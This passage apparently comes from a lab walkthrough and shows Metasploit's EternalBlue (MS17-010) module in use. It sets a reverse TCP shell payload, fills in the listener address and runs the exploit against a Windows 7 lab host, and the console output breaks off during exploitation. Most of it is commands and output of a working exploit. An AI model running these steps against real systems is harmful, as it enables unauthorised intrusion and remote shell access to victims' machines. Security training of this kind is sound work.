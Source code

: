 **Payload options**
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 2
payload => generic/shell_reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Note that choosing a working payload could become a trial and error process due to environmental or OS restrictions such as firewall rules, anti-virus, file writing, or the program performing the payload execution isn't available (eg. payload/python/shell_reverse_tcp).

Some payloads will open new parameters that you may need to set, running the show options command once more can show these. As you can see in the above example, a reverse payload will at least require you to set the LHOST option.

**Setting the LHOST value and running the exploit**
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.186.44
lhost => 10.10.186.44
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 

[*] Started reverse TCP handler on 10.10.186.44:4444 
[*] 10.10.12.229:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.12.229:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.12.229:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.12.229:445 - Connecting to target for exploitation.
[+] 10.10.12.229:445 - Connection established for exploitation.
[+] 10.10.12.229:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.12.229:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.12.229:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
```